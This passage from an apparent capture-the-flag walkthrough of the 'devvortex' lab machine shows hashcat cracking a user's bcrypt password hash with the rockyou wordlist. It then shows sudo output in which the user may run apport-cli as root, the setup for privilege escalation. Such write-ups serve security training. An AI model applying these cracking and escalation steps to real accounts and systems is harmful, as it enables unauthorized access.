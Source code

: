 ```terminal
```

We found `logan`'s hash, let's crack it using `hashcat` with the mode `3200`.

```terminal
Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:


Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Sun Dec 24 10:55:33 2023 (13 secs)
Time.Estimated...: Sun Dec 24 10:55:46 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      112 H/s (12.87ms) @ Accel:1 Loops:1 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1536/14344384 (0.01%)
Rejected.........: 0/1536 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1023-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> mexico1

Started: Sun Dec 24 10:55:20 2023
Stopped: Sun Dec 24 10:55:48 2023
```

We got the password, now let's switch to `logan` or just ssh.

### logan --> root

Let's check our privileges.

```terminal
logan@devvortex:~$ sudo -l                                                                                            
[sudo] password for logan:                                                                                            
Matching Defaults entries for logan on devvortex:                                                                     
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
                                                                                                                      
User logan may run the following commands on devvortex:                                                               
    (ALL : ALL) /usr/bin/apport-cli
```
